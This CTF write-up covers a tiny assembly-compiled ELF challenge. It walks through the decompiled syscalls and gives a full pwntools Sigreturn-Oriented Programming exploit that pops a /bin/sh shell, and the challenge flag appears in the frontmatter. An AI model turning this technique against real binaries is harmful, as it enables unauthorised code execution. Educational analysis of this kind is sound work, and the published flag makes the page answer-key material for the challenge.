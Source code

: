 ```yaml
---
title: Size Doesn't Matter
category: Binary Exploitation
tags: 
completedDuringEvent: true
submitted: true
flag: p_ctf{t1n¥_c0d3_bu+_str0ng_3n0ugh!}
draft: false
---
```

It would be a good idea to start by identifying the given binary type.

```sh
$ file chall                
chall: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, not stripped

$ strings chall         
I'm small, aren't I? Nobody expects me to do anything...
I guess I'll just stay here, too small to matter. Figures.
Guess I was right... I'm just too small for you to care.
test.asm
msg_len
msg2
msg2_len
msg3
msg3_len
buffer
__bss_start
_edata
_end
.symtab
.strtab
.shstrtab
.text
.data
.bss
```

It turns out that the given binary file is very small, in the `strings` command we can see that there is `test.asm` which may be the source code of this binary. So it can be concluded that this binary is a binary compiled from assembly.

It's time for us to do binary analysis using **IDA Pro**.

```c
void __noreturn start()
{
  signed __int64 v0; // rax
  signed __int64 v1; // rax
  signed __int64 v2; // rax
  signed __int64 v3; // rax
  size_t v4; // rdx
  signed __int64 v5; // rax
  signed __int64 v6; // rax
  signed __int64 v7; // rax
  char v8; // [rsp-1F4h] [rbp-1F4h] BYREF

  v0 = sys_write(1u, msg, 0x3AuLL);
  v1 = sys_read(0, &v8, 0x1F3uLL);
  v2 = sys_write(1u, msg2, 0x3CuLL);
  v3 = sys_read(0, _bss_start, 0x10uLL);
  v5 = sys_read(0, _bss_start, v4);
  v6 = sys_write(1u, msg3, 0x39uLL);
  v7 = sys_exit(0);
}
```

From the assembly code above, we can see that this binary performs `read` and `write` syscalls to read input from the user and write output to the user.

![alt text](image.png)

But there is something interesting here where in the `sys_read(0, _bss_start, 0x10uLL);` section we can see that this binary reads 0x10 bytes (16 bytes) of user input to `_bss_start` which is part of the `.bss` section. After `sys_read` is complete, this binary does `sys_read(0, _bss_start, v4);` where when `sys_read` is called it will use the previous register used in `sys_read(0, _bss_start, 0x10uLL);`.

When `sys_read(0, _bss_start, 0x10uLL);` is finished being called then the `eax` or `rax` register will contain the same value as the number of bytes read by `sys_read`.

So `sys_read(0, _bss_start, v4);` will not always be `sys_read` but it will change to another `syscall` according to the value in the `rax` register.

After searching the internet there is a technique called [Sigreturn-Oriented Programming (SROP)](https://ir0nstone.gitbook.io/notes/binexp/stack/syscalls/sigreturn-oriented-programming-srop) where we can do the `syscall` we want using this technique.

We can create **Sigreturn Frame** using `SigreturnFrame` from the `pwn` library which will help us to create the payload we want. With `SigreturnFrame` we can set the register we want and do the syscall we want.

Here is the python script that I used to complete this challenge. We store the **Sigreturn Frame** in the first `sys_read` in the `v8` variable on the stack. After that we do a second `sys_read` to write the string `/bin/sh` to `_bss_start` (But we adjust it first so that the output of `rax` becomes the `sys_rt_sigreturn` syscall number 15) which we then use in the **Sigreturn Frame** to do the `execve` syscall which will run the shell.

```py
from pwn import *

binary = './chall'

context.log_level = 'debug'
context.binary = binary

e = ELF(binary)
r = process(binary)
# r = remote('microp.ctf.prgy.in', 1337, ssl=True)

# gdb.attach(r, '''
#     b *_start+108
#     c
# ''')

frame = SigreturnFrame()
frame.rax = 59          # execve syscall number
frame.rdi = 0x4020B0    # Pointer to "/bin/sh" string (_bss_start)
frame.rsi = 0           # NULL argv
frame.rdx = 0           # NULL envp
frame.rip = 0x401098    # syscall instruction

payload_stage1 = bytes(frame).ljust(0x1F3, b'\x00')

r.recvuntil(b"I'm small, aren't I? Nobody expects me to do anything...")
r.send(payload_stage1)

payload_stage2 = b"/bin/sh\x00".ljust(15, b'\x00')

r.recvuntil(b"I guess I'll just stay here, too small to matter. Figures.")
r.send(payload_stage2) # Write /bin/sh to _bss_start

r.interactive()
r.close()
```
